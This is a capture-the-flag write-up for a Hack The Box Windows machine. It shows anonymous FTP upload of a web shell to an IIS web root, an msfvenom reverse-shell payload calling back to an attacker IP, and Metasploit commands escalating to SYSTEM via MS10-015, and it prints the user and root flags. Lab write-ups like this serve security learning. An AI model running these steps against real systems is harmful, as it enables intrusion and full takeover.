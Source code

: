 ```yaml
---
title: HTB Machine Deval May 2025
published: 2025-05-16
description: Writeup of HTB Deval Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, IIS, ASP DotNet]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning

- Ports Scan using rustscan

![Pasted image 20250516011901.png](images/Pasted_image_20250516011901.png)

```bash
_______________________________________                                                      
 http://discord.skerritt.blog         :                                                      
 https://github.com/RustScan/RustScan :                                                      
--------------------------------------                                                       
Scanning ports faster than you can say 'SYN ACK'                                                                    
~] The config file is expected to be at "/home/kali/.rustscan.toml"                          
~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.  

open 10.10.10.5:21
open 10.10.10.5:80                                                                            
```

- Full Nmap Scan

```bash
nmap -sC -sV -T5 -A -p21,80 -oA nmap/initials 10.10.10.5
```

```bash
# Nmap 7.94SVN scan initiated Fri May 16 01:17:17 2025 as: nmap -sC -sV -T5 -A -p21,80 -oA nmap/initials 10.10.10.5
Nmap scan report for 10.10.10.5 (10.10.10.5)
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 16 01:17:37 2025 -- 1 IP address (1 host up) scanned in 20.13 seconds
```

- Based on the scan results, only IIS Web Server and FTP services are running on the target, with no other open ports detected.
- The target is running Windows with Microsoft IIS 7.5 web server.
- FTP is running on port 21 with anonymous login enabled.
- HTTP is running on port 80 serving a default IIS 7.5 page.

# Enumeration

- FTP is accessible using simple credentials: `user:anonymous` and `password:<blank>` login.

![Pasted image 20250516012204.png](images/Pasted_image_20250516012204.png)

- Downloaded all available files using the following commands to analyze their contents:

```bash
wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/aspnet_client/*  

wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/iisstart.htm 

wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/welcome.png
```

- Initial analysis revealed no immediately useful information from these files.
- Performed directory brute forcing with multiple tools and wordlists:

```bash
# Used multiple wordlists for thorough enumeration
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/Web-Servers/IIS.txt

/usr/share/dirb/wordlists/common.txt

/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

- Directory brute forcing yielded no additional interesting directories or files.
- Critical discovery: FTP upload directory appears to be the same as the web root directory. This means files uploaded via FTP would be accessible through the web server.
- This configuration presents a significant vulnerability as we can upload an ASP.NET web shell through FTP and then execute it via the web server.

# Exploitation

![Pasted image 20250516014457.png](images/Pasted_image_20250516014457.png)

![Pasted image 20250516014529.png](images/Pasted_image_20250516014529.png)

![Pasted image 20250516014547.png](images/Pasted_image_20250516014547.png)

- Successfully confirmed access via basic web shell.
- For improved post-exploitation capabilities, generated a Meterpreter shell using:

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.10.16.10 LPORT=1337 \
  -f aspx \
  -o msf_shell.aspx
```

- Transferred the payload to the victim machine via FTP.
- Set up a Metasploit handler to receive the incoming connection.
- Triggered the payload by accessing it through the web server.

![Pasted image 20250516015102.png](images/Pasted_image_20250516015102.png)

![Pasted image 20250516015617.png](images/Pasted_image_20250516015617.png)

# Post Exploitation

- Used the exploit suggester module to identify potential privilege escalation vectors:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![Pasted image 20250516022302.png](images/Pasted_image_20250516022302.png)

- Selected the MS10-015 (KiTrap0d) privilege escalation exploit:

![Pasted image 20250516022334.png](images/Pasted_image_20250516022334.png)

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set lhost 10.10.16.10
run
```

- **MS10-015 (KiTrap0d) Vulnerability Background**: MS10-015/CVE-2010-0232 exploits a kernel vulnerability in Windows' Virtual DOS Machine subsystem that improperly handles 16-bit system calls, allowing manipulation of kernel-mode memory. The flaw exists in win32k.sys where the kernel mishandles exceptions during system call processing, enabling attackers to execute arbitrary code with SYSTEM privileges by triggering a controlled exception that corrupts kernel stack pointers. This vulnerability affects multiple Windows versions including Windows 7, which explains its effectiveness on the Devel machine.

- [More On This...............](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-015/CVE-2010-0232.txt)

![Pasted image 20250516022236.png](images/Pasted_image_20250516022236.png)

- Successfully escalated privileges to NT AUTHORITY\SYSTEM, giving complete control over the target system.

![Pasted image 20250516022617.png](images/Pasted_image_20250516022617.png)

- Located and retrieved both user and root flags:

![Pasted image 20250516022910.png](images/Pasted_image_20250516022910.png)

- User Flag:

```lua
d356b7b47e9b90cfd11c33d16bcc30d8
```

- Root Flag:

```lua
1db38188c79211dbcbf76001749afe01
```